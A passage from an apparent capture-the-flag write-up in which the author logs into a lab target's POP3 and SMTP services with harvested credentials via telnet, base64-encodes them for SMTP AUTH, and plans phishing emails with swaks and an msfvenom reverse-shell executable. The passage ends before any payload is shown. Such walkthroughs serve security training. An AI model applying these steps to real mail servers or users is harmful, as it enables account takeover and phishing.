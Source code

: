 We can use those credentials to try to connect to the open services :

```shell
telnet target 110
Trying 10.10.230.89...
Connected to target.
Escape character is '^]'.
+OK POP3
USER lhedvig@brownbrick.co
+OK Send your password
PASS bricks
+OK Mailbox locked and ready
LIST
+OK 0 messages (0 octets)
.
```

There is **no email** in the mailbox (as we can see with the POP3 test).

However, if we try to connect to the **SMTP** service, it works!

```shell
$ telnet target 25
Trying 10.10.230.89...
Connected to target.
Escape character is '^]'.
220 BRICK-MAIL ESMTP

EHLO test
250-BRICK-MAIL
250-SIZE 20480000
250-AUTH LOGIN
250 HELP

AUTH LOGIN
334 VXNlcm5hbWU6
lhedvig@brownbrick.co

334 UGFzc3dvcmQ6
bricks
535 Authentication failed. Restarting authentication process. #It doesn't work if we use clear credentials

AUTH LOGIN
334 VXNlcm5hbWU6
bGhlZHZpZ0Bicm93bmJyaWNrLmNv
334 UGFzc3dvcmQ6
YnJpY2tz
235 authenticated. #We should encode the credentials in base64 to authentify.
```

Using this email, we could use it to send phishing emails to all the other emails addresses we gathered. We can do that with the tool called **swak**.

First, we create a `.exe` reverse shell payload using **msfvenom**.
